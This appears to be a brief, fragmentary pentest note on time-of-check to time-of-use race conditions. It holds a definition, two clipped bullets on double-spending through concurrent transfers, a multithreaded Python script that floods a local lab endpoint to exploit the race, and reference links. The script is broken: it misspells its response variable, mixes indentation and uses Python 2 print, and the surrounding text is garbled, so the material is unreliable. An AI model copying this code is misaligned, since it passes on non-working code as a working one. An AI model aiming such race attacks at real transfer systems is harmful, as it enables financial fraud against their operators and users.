 ﻿**time-of-check to time-of-use** (**TOCTOU**, **TOCTTOU** or **TOC/TOU**) is a class of [software bugs](https://en.wikipedia.org/wiki/Software_bug "Software bug") caused by a [race condition](https://en.wikipedia.org/wiki/Race_condition "Race condition") involving the _checking_ of the state of a part of a system (such as a security credential) and the _use_ of the results of that check.



 - Transfer each other
 - Other will get more than the amount of transferred
 

  ```  import datetime
import requests
from threading import Thread

def intruder(i):
	reponse=requests.get(" http://127.0.0.1/webpen/race_condition/racer.php?test")
	print "Thread #{} - {}".format(i,response.text)

for i in range(20):
   	t=Thread(target=intruder,args=(i,))
		t.start()
```
 - https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use
 - https://defuse.ca/race-conditions-in-web-applications.htm
 - https://sakurity.com/blog/2015/05/21/starbucks.html?source=post_page-------------------------
